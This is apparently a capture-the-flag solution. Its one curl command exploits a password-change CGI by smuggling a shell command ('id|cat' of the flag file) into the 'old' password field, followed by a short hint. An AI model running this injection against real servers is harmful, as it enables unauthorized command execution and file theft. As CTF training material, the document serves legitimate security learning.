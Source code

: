 # Solution

```
URI=https://161.35.16.37:10004
curl -ks $URI'/password_change.cgi' -d 'user=wheel&pam=&expired=2&old=id|cat /flag-with-unguessable-name.txt&new1=wheel&new2=wheel' -H 'Cookie: redirect=1; testing=1; sid=x; sessiontest=1;' -H "Content-Type: application/x-www-form-urlencoded" -H 'Referer: '$URI'/session_login.cgi'|grep CTF
```

# Hint
Consider writing: 'Hint: Sometimes you dont need to change the password. Sometimes you just need to try.'